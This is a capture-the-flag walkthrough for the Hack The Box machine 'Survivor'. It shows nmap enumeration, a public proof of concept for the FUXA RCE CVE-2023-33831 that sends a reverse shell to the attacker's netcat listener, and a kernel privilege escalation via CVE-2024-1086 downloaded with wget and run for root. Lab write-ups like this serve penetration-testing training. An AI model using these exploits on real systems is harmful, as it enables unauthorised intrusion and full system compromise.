

 	<font size="10">Survivor</font> 		

​		29<sup>th</sup> April 2024 / Document No DYY.100.XX 		

​		Prepared By: k1ph4ru 		

​		Machine Author:  k1ph4ru 		

​		Difficulty: <font color=green>Easy</font>		

​		Classification: Official	 

# 

# Enumeration


 ## Nmap 

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.231.23 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

nmap -p$ports -sC -sV 10.129.231.23

Starting Nmap 7.93 ( https://nmap.org ) at 2024-04-29 15:43 EDT
Nmap scan report for test.ruinacademy.htb (10.129.231.23)
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

An initial `Nmap` scan reveals two open ports. On port `22` SSH is running and on port `80` an `Nginx` web server. We visit the website and are redirected to `http://survivor.htb`. We add the domain to our `/etc/hosts/` file to resolve it.

```
echo "10.129.231.23 survivor.htb" | sudo tee -a /etc/hosts
```


The web server is hosting a website about the `apocalypse`, focusing on resilience and post-apocalyptic content. It also talks about community building based on post-crisis scenarios. One of the pages references a link to an app designed to aid in urban revival.


If we click the link, we are redirected to `fuxa.survivor.htb`, we need to add this to the `/etc/hosts` file.


# Foothold 

Here we see a `FUXA` instance running, accessing the `/editor` endpoint, and clicking at the top icon `?` reveals the version running is `Version 1.1.13-1204`.



A quick Google search of the vulnerabilities affecting that particular version reveals [CVE-2023-33831](https://nvd.nist.gov/vuln/detail/CVE-2023-33831), and we also find [this](https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831) Python proof-of-concept script available. To run the exploit, we first start a `Netcat` listener on port `4444`.

```
nc -lnvp 4444

listening on [any] 4444 ...
```


We then fetch the exploit from `GitHub` and run it. 

```bash 
git clone https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831.git
cd Unauthenticated-RCE-FUXA-CVE-2023-33831 
```

Here, encounter a few options in the proof-of-concept script where `rhost` is the hostname of the `FUXA` instance, `rport` is the port it is running on, `lhost` is our local IP, and `lport` is our local IP where our netcat listener is running.

```bash
 python3 exploit.py --help                                                               
usage: python exploit.py --rhost <ip> --rport <rport> --lhost <lhost> --lport <lport>

options:
  -h, --help     show this help message and exit
  --rhost RHOST  insert an rhost
  --rport RPORT  insert an rport
  --lhost LHOST  insert an lhost
  --lport LPORT  insert an lport
```

We proceed to run the script, specifying all the above options.

```bash
python3 CVE-2023-33831.py --rhost fuxa.survivor.htb --rport 80 --lhost 10.10.14.70 --lport 4444
```

Looking at our `Netcat` listener, we see that we get a shell as `jake`. 

```bash  
nc -lnvp 4444
listening on [any] 4444 ...

connect to [10.10.14.70] from (UNKNOWN) [10.129.231.23] 39270
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(jake) gid=1000(jake) groups=1000(jake)
$ 
```

We can get a more interactive shell by running `script /dev/null -c /bin/bash`  which initiates a pseudo-terminal session and starts a `Bash` shell, providing a more interactive command-line environment.

```
$ script /dev/null -c /bin/bash 
Script started, output log file is '/dev/null'.
jake@ubuntu:/opt/FUXA-1.1.13/server$ 
```

From here, we can read the user flag.

```bash 
jake@ubuntu:/opt/FUXA-1.1.13/server$ cd ~
cd ~
jake@ubuntu:~$ cat user.txt
cat user.txt
HTB{FuXa_ExPloIT_4_RC3}
jake@ubuntu:~$ 
```

# Privilege Escalation

Enumerating the system and examining the kernel version using `uname -a`, which provides system information, we find that the kernel version running is `5.15.0-71-generic`.

```bash 
jake@ubuntu:~$ uname -a
uname -a
Linux ubuntu 5.15.0-71-generic #78-Ubuntu SMP Tue Apr 18 09:00:29 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
jake@ubuntu:~$ 

```

A quick Google search for Linux kernel exploitation vulnerabilities leads us to [CVE-2024-1086](https://nvd.nist.gov/vuln/detail/CVE-2024-1086), which is a use-after-free vulnerability in the Linux kernel's netfilter: nf_tables component. This vulnerability allows local privilege escalation. We also come across [this](https://github.com/Notselwyn/CVE-2024-1086) proof-of-concept.  

We compile it to obtain an exploit, which we then copy to the host and run:

```
git clone https://github.com/Notselwyn/CVE-2024-1086
cd CVE-2024-1086
make
```

We then start a `Python` web server to host our exploit.

```bash
python3 -m http.server 7000  

Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...
```

 Let's change to the `/tmp` folder and use `wget` to download the exploit.

```bash 
cd /tmp
jake@ubuntu:/tmp$ wget http://10.10.14.70:7000/exploit
wget http://10.10.14.70:7000/exploit
--2024-04-29 20:20:06--  http://10.10.14.70:7000/exploit
Connecting to 10.10.14.70:7000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 161168 (157K) [application/octet-stream]
Saving to: ‘exploit’

exploit             100%[===================>] 157.39K   281KB/s    in 0.6s    

2024-04-29 20:20:07 (281 KB/s) - ‘exploit’ saved [161168/161168]
```

We can then change the permissions of the exploit and run it.

```bash 
jake@ubuntu:/tmp$ chmod +x exploit
chmod +x exploit
jake@ubuntu:/tmp$ ./exploit
./exploit
[*] creating user namespace (CLONE_NEWUSER)...
[*] creating network namespace (CLONE_NEWNET)...
[*] setting up UID namespace...
[*] configuring localhost in namespace...
[*] setting up nftables...
[+] running normal privesc
[*] waiting for the calm before the storm...
[*] sending double free buffer packet...
[*] spraying 16000 pte's...
[*] checking 16000 sprayed pte's for overlap...
[+] confirmed double alloc PMD/PTE
[+] found possible physical kernel base: 000000009d800000
[+] verified modprobe_path/usermodehelper_path: 000000009f68bb00 ('/sanitycheck')...
[*] overwriting path with PIDs in range 0->4194304...
/bin/sh: 0: can't access tty; job control turned off
# id 
id
uid=0(root) gid=0(root) groups=0(root)
```

We get a shell as `root`, and from here, we can obtain the root flag.

```bash 
# cat root.txt
cat root.txt
HTB{KeRnEnL_ExP_4_r00t}
# 
```


